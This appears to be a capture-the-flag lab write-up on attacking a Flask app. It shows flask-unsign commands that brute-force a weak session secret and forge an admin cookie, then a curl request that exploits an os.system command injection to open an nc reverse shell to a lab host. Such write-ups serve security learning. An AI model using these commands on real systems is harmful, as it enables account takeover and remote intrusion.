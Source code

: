 Findings :
* There is a flag 😂 
* It uses Flask
* We found the 3 only users -- and only one had a password
* It's not possible to be an admin
* The admin section is restricted to the admin

## Flag 4: be an admin 

So: how the hell can we be an admin if it's not implemented ???

The answer is: we may craft a cookie for that !

Flask sessions contains parameters in the cookie, which is an equivalent of a JWT token : world-readable, but signed by a secret.

And... we know the secret ! It's in the file ... almost 😞 
```
key = "secret_key_" + str(random.randrange(100000,999999))
```
Let's use a dedicated tool for that :
```
$ pip install flask-unsign

$ /usr/local/bin/flask-unsign -d -c eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZJCgxg.Eqi1fO3hRSnO0JDmoj0FwgvogbM  
{'logged_in': True, 'username': '_REDACTED_'}

# Generate all possible keys
$ seq 100000 999999 | sed 's/^/secret_key_/' > keys.txt

$ /usr/local/bin/flask-unsign -u -c eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZJCgxg.Eqi1fO3hRSnO0JDmoj0FwgvogbM -w keys.txt  
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}  
[*] Starting brute-forcer with 8 threads..  
[+] Found secret key after 779392 attempts  
'secret_key_879207'
# Note: it changes every time...

$ /usr/local/bin/flask-unsign --sign --secret secret_key_879207 -c "{'logged_in': True, 'username': 'admin'}"  
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZJCmFA.c2GtwbT7Zn3QtuSMKtiGcMp9lGQ
```

Now, with this admin-crafted cookie, we can access the admin page and the 4th flag.

## Flag 5: open a shell

Another interesting thing in the source code is, for /admin :
```
if request.method == "POST":  
os.system(request.form["debug"])
```
Let's play with that and ask for... a reverse shell !!
```
#Note: replace & by %26 !!!

$ curl 'http://10.10.247.142:8080/admin' -X POST \  
-H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZJCmjg.4BeS36_PuOAAzokuPGBT5PD93Cs'\  
--data-raw 'debug=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.176.115 4242 >/tmp/f'
```
